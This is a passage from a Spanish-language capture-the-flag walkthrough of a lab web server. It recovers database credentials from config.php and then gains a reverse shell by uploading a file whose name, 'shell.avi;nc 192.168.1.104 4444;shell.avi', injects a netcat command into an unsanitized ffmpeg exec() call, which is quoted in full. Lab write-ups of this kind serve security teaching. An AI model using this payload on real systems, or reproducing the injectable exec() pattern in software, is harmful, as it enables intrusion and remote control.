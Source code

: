 Tras prueba y error llegamos a un archivo en `/var/www/html/data/` llamado `config.php`, el cual contiene credenciales de un usuario llamado `tarantino`.

```PHP
<?php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'tarantino');
define('DB_PASSWORD', 'killer');
define('DB_NAME', 'moviedb');
[...]
```

Bien, ya tenemos credenciales, vamos a ver si podemos entrar en el panel antes descubierto. Sí, podemos entrar! Una vez hayamos entrado veremos un botón que pone `Click me`, el cual nos descargará un `ZIP` con el nombre de `mydata_archive.zip`.

### Extracción de datos #2 (Alternativa)
Esto está muy bien, pero tardaremos un poco y habrá que hacer algo de tanteo, ya que si queremos conseguir algo habrá que encontrar el archivo `/var/www/html/data/config.php`, por lo que es algo tedioso.

Para poder conseguir el mismo resultado que el anterior creé un archivo con un nombre algo pecualiar, aunque antes nos pondremos en escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Bien, con esto hecho ya podemos crear dicho archivo con el siguiente nombre: `shell.avi;nc 192.168.1.104 4444;shell.avi`. Como vemos el nombre del archivo utiliza `;` para concatenar instrucciones. Si subimos dicho archivo veremos que recibimos la Shell.

Para entender el por qué pasa esto será necesario ver el código:

```
<?php
if($_SERVER["REQUEST_METHOD"] == "POST"){
    if(isset($_FILES["video"]) && $_FILES["video"]["error"] == 0){
        $allowed = array("avi" => "avi", "avi" => "video/x-msvideo");
        $filename = $_FILES["video"]["name"];
        $filetype = $_FILES["video"]["type"];
        $filesize = $_FILES["video"]["size"];
        $filename_without_ext = preg_replace('/\\.[^.\\s]{3,4}$/', '', $filename);
        $hostname = gethostname();

        $ext = pathinfo($filename, PATHINFO_EXTENSION);
        if(!array_key_exists($ext, $allowed)) die("Error: Please select a valid file format.");

        $maxsize = 5 * 1024 * 1024;
        if($filesize > $maxsize) die("Error: The file size is too big.");

        if(in_array($filetype, $allowed)){
            if(file_exists("upload_videos/" . $_FILES["video"]["name"])){
                echo $_FILES["video"]["name"] . " existe déjà.";
            } else{
                move_uploaded_file($_FILES["video"]["tmp_name"], "upload_videos/" . $_FILES["video"]["name"]);
                  exec("ffmpeg -i upload_videos/$filename converted_videos/$filename_without_ext.mp4");
                  exec("rm -rf upload_videos/*");
                  echo "Your file has been successfully uploaded." ."<br>". "http://$hostname/converted_videos/$filename_without_ext.mp4";
            } 
        } else{
            echo "Error: There was a problem downloading your file. Please try again."; 
        }
    } else{
        echo "Error: " . $_FILES["video"]["error"];
    }
```